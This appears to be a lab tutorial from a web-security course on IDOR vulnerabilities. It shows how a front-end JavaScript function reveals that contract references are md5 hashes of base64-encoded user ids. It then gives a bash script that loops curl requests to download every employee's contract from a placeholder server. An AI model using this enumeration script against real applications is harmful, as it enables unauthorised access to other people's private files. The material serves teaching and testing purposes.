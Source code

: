 # Bypassing Encoded References

In the previous section, we saw an example of an IDOR that uses employee uids in clear text, making it easy to enumerate. In some cases, web applications make hashes or encode their object references, making enumeration more difficult, but it may still be possible.

Let's go back to the `Employee Manager` web application to test the `Contracts` functionality:

<figure><img src="../../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption><p>http://SERVER_IP:PORT/contracts.php</p></figcaption></figure>

If we click on the `Employment_contract.pdf` file, it starts downloading the file. The intercepted request in Burp looks as follows:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that it is sending a `POST` request to `download.php` with the following data:

```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

Using a `download.php` script to download files is a common practice to avoid directly linking to files, as that may be exploitable with multiple web attacks. In this case, the web application is not sending the direct reference in cleartext but appears to be hashing it in an `md5` format. Hashes are one-way functions, so we cannot decode them to see their original values.

We can attempt to hash various values, like `uid`, `username`, `filename`, and many others, and see if any of their `md5` hashes match the above value. If we find a match, then we can replicate it for other users and collect their files. For example, let's try to compare the `md5` hash of our `uid`, and see if it matches the above hash:

```shell-session
$ echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b -
```

Unfortunately, the hashes do not match. We can attempt this with various other fields, but none of them matches our hash. In advanced cases, we may also utilize `Burp Comparer` and fuzz various values and then compare each to our hash to see if we find any matches. In this case, the `md5` hash could be for a unique value or a combination of values, which would be very difficult to predict, making this direct reference a `Secure Direct Object Reference`. However, there's one fatal flaw in this web application.

***

## Function Disclosure

As most modern web applications are developed using JavaScript frameworks, like `Angular`, `React`, or `Vue.js`, many web developers may make the mistake of performing sensitive functions on the front-end, which would expose them to attackers. For example, if the above hash was being calculated on the front-end, we can study the function and then replicate what it's doing to calculate the same hash. Luckily for us, this is precisely the case in this web application.

If we take a look at the link in the source code, we see that it is calling a JavaScript function with `javascript:downloadContract('1')`. Looking at the `downloadContract()` function in the source code, we see the following:

```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

This function appears to be sending a `POST` request with the `contract` parameter, which is what we saw above. The value it is sending is an `md5` hash using the `CryptoJS` library, which also matches the request we saw earlier. So, the only thing left to see is what value is being hashed.

In this case, the value being hashed is `btoa(uid)`, which is the `base64` encoded string of the `uid` variable, which is an input argument for the function. Going back to the earlier link where the function was called, we see it calling `downloadContract('1')`. So, the final value being used in the `POST` request is the `base64` encoded string of `1`, which was then `md5` hashed.

We can test this by `base64` encoding our `uid=1`, and then hashing it with `md5`, as follows:

```shell-session
$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```

{% hint style="info" %}
**Tip:** We are using the `-n` flag with `echo`, and the `-w 0` flag with `base64`, to avoid adding newlines, in order to be able to calculate the `md5` hash of the same value, without hashing newlines, as that would change the final `md5` hash.
{% endhint %}

As we can see, this hash matches the hash in our request, meaning that we have successfully reversed the hashing technique used on the object references, turning them into IDOR's. With that, we can begin enumerating other employees' contracts using the same hashing method we used above. `Before continuing, try to write a script similar to what we used in the previous section to enumerate all contracts`.

***

## Mass Enumeration

Once again, let us write a simple bash script to retrieve all employee contracts. More often than not, this is the easiest and most efficient method of enumerating data and files through IDOR vulnerabilities. In more advanced cases, we may utilize tools like `Burp Intruder` or `ZAP Fuzzer`, but a simple bash script should be the best course for our exercise.

We can start by calculating the hash for each of the first ten employees using the same previous command while using `tr -d` to remove the trailing `-` characters, as follows:

```shell-session
$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```

Next, we can make a `POST` request on `download.php` with each of the above hashes as the `contract` value, which should give us our final script:

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

With that, we can run the script, and it should download all contracts for employees 1-10:

```shell-session
$ bash ./exploit.sh
$ ls -1

contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
contract_f7947d50da7a043693a592b4db43b0a1.pdf
```

As we can see, because we could reverse the hashing technique used on the object references, we can now successfully exploit the IDOR vulnerability to retrieve all other users' contracts.

